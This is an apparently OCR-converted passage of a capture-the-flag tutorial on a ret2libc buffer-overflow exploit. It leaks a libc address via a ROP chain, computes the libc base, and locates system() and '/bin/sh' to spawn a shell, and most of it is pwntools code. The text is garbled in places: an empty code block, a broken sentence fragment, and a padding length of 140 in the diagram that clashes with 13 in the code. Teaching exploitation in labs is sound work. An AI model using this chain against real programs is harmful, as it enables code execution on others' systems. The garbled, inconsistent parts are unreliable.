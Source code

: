 `offset = read_leaked - libc.symbols['read']`

> Alternatively, `libc.address = read_leaked - libc.symbols['read']`, which will allow us to use the `pwntools`'s `elf` class functions.

### Spawning Shell

Now, we have the libc base address, all we need to do is calculate the address of system.

```python

` it exactly same as we did in `ret2libc` no `ASLR`:-

```r
------------------------------------------------------
| "A"*140 | system_addr + dummy_ret + /bin/sh address|
------------------------------------------------------
```

Now, our exploit look like:-

```python
from pwn import *

p = process("./chall")
elf = ELF("chall")
libc = elf.libc
gadget = 0x080484e9 #  pop esi; pop edi; pop ebp; ret;

'''
ROP Chain 1st

Doing `write(1, read@got, 0x8)`
'''
payload = b"A"*13
payload += p32(elf.plt['write'])
payload += p32(gadget)
payload += p32(1)
payload += p32(elf.got['read'])
payload += p32(0x8)
'''
Calling `main` again to send 2nd chain
'''

payload += p32(elf.symbols['main']) # `main` address
#pause() 
p.sendline(payload) # Sending 1st payload

'''
Parsing the leaked address
'''

read_leaked = u32(p.recv()[:4].strip().ljust(4, b"\x00"))
log.info("read@libc: "+hex(read_leaked))

'''
Updating the libc address
'''

libc.address = read_leaked - libc.symbols['read']

'''
Calclating the address for `system` and `/bin/sh`
'''
system = libc.symbols['system']
bin_sh = next(libc.search(b"/bin/sh\x00"))
```